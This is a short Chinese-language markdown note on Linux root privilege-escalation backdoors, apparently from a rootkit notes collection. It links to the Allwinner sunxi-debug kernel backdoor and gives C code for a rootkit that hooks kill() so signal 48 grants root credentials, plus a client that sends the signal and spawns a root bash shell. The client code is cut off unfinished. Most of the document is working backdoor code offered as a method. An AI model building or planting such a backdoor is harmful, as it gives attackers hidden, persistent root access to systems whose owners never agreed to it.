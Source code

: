 







### ROOT提权后门

**方案一**

向特定文件写入指定内容，该文件可以使用文件隐藏隐藏起来

[全志后门](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41)

[参考](https://wohin.me/rootkit/2017/05/11/LinuxRootkitExp-00020.html)

**方案二**

Hook kill函数，发送指定SIGNAL信号

```
#define SIGROOT 48
asmlinkage int fake_kill(pid_t pid, int sig){
    switch(sig){
        case SIGROOT:
            commit_creds(prepare_kernel_cred(0));
            break;
	default:
            return o_kill(pid,sig);

    }
    return 0;
}
```



```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

void sig_handler(int sig) {
    if(sig) // avoid warnings

    return;
}

int main(int argc, char *argv[]) {
    char bash[] = "/bin/bash\x00";
    char *envp[1] = { NULL };
    char *arg[3] = {"/bin/bash", NULL};
    
    if(geteuid() == 0){
        printf("You are already root! :)\n\n");
        exit(0);
    } 
    
    signal(48, sig_handler);
    kill(getpid(), 48);

    if (geteuid() == 0){
        printf("\e[01;36mYou got super powers!\e[00m\n\n");
        execve(bash, arg, envp);
    } else {
        printf("\e[00;31mYou have no power here! :( \e[00m\n\n");
    }
        
```